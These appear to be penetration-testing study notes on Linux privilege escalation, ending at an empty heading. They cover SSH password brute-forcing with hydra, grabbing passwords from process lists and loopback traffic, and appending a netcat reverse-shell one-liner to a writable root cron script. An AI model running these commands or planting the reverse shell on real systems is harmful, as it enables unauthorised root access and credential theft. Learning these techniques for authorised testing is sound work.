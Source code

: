 hydra -l eve -P wordlist 192.168.45.164 -t 4 ssh -V

we can verify if we're running as privileged user by:
sudo -l

sudo -i
gets us to root right away


Inspecting Service Footprints

daemons: services spawned at boot time to perform operations without user interaction

daemons like SSH, web server db

sys admin use custom daemon to exe ad-hoc tasks

on Linux we can list info about high privilege processes such as the ones under root

with the ps command which takes a single snapshot of the active processes

we'll need to loop it with watch

watch -n 1 "ps -aux | grep pass"
this loops ps -aux | grep pass every second

tcpdump 
std::packet capture, needs sudo, or just pivot to IT account

sudo tcpdump -i lo -A | grep "pass"
capture taffic IO loopback interface, dump content in ASCII via -A


Insecure File Permissions

Abusing Cron Jobs

need to locate exe file with write && runs at root level

cron time based job scheduler is a prime target

grep "CRON" /var/log/syslog
inspect cron log file

suppose we locate CRON by local user

we cat the file to see what's in it
we 
ls -lah <directory> 
to see the other permission if it's -eeeeeerw-, it means we have read write to the file

so:
cd .scripts (or the location of the script)

echo >> <scriptname>.sh to write to the script

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <my ip> <port> >/tmp/f" >> <scriptname>.sh

cat <scriptname>.sh


Abusing Password Authentication
